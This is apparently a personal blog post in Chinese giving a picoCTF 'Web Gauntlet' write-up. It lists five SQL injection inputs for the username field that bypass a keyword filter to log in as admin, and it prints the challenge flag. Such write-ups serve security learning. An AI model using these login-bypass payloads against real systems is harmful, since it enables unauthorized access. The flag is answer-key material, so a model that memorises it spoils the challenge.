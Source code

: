 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

# Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

1. `admin;--`
2. `admin;0x2d2d`
3. `admin;0x2d2d`
4. `ad||min;0x2d2d`
5. `ad||min;0x2d2d`

# Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}